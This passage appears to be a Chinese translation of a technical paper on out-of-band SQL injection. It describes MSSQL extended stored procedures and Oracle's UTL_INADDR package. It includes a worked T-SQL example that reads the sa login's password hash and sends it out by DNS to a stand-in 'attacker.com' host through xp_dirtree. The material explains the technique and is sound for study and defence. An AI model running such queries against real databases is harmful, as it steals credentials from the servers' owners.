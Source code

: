 4.1.2 master..xp_fileexist

扩展存储程序master..xp_fileexist（）用于确定一个特定的文件是否存在于硬盘： xp_fileexist '' 例如，要检查boot.ini文件是否存在于磁盘C 运行:

```
 EXEC master..xp_fileexist 'C:\boot.ini';

```

 4.1.3 master..xp_subdirs

扩展存储程序master..xp_subdirs（）用于得到给定的文件夹内的文件夹列表： 

```
master..xp_subdirs '<dirpath>'

```

例如，要获得C:\Windows中的所有次级文件夹: 

```
EXEC master..xp_subdirs 'C:\Windows';     

```

4.1.4例子

接下来的是的通过MsSQL的扩展存储程序master..xp_dirtree()将管理员（sa）的密码哈希通过DNS传输的例子。 

```
DECLARE @host varchar(1024);     

SELECT @host=(SELECT TOP 1 master.dbo.fn_varbintohexstr(password_hash) FROM sys.sql_logins WHERE name='sa')+'.attacker.com';
 EXEC('master..xp_dirtree "\\'+@host+'\foobar$"');

```

这种预先计算的形式被使用，因为扩展存储程序不接受带有参数的子查询。因而使用临时变量存储SQL查询的结果。

4.2 Oracle 
-----------

* * *

Oracle提供的PL/ SQL包被捆绑在它的Oracle数据库服务器来扩展数据库功能。为了实现本文的目的，其中几个用于网络接入的包让人特别感兴趣。

 4.2.1 UTL_INADDR.GET_HOST_ADDRESS

UTL_INADDR包用于互联网的寻址--诸如检索本地和远程主机的主机名和IP的地址。

它的成员函数GET_HOST_ADDRESS()用于检索特定主机的IP：

```
 UTL_INADDR.GET_HOST_ADDRESS('<host>')

```

例如，为了获得test.example.com的IP地址，运行： 

```
SELECT UTL_INADDR.GET_HOST_ADDRESS('test.example.com');     

```
